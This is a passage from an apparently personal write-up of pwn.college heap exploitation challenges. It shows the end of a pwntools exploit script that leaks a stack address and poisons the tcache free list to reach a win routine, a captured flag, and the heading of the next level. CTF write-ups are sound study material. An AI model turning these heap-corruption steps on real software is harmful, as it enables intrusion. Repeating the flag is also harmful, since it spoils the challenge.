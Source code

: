 ```python
        0x30,
    )
    # raw_input("DEBUG")
    stack_scanf(payload)
    # raw_input("DEBUG")
    stack_free()

    free(0)
    # raw_input("DEBUG")
    puts(0)
    target.recvuntil(b"Data: ")
    stack = int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little")
    target.success(f"stack: {hex(stack)}")

    malloc(0, 0x43)
    malloc(1, 0x43)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0x43)
    stack_malloc_win()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:sopiler[`pwn.college{wIhhQLe35f_W9wFoYZAeO6TJPGe.0FN5MDL5cTNxgzW}`]

# Level 13.0

## Information

- Category: Pwn

## Description

> Leverage calling free() on a stack pointer to read secret data.

## Write-up

~我们迎来了最简单的一集。~
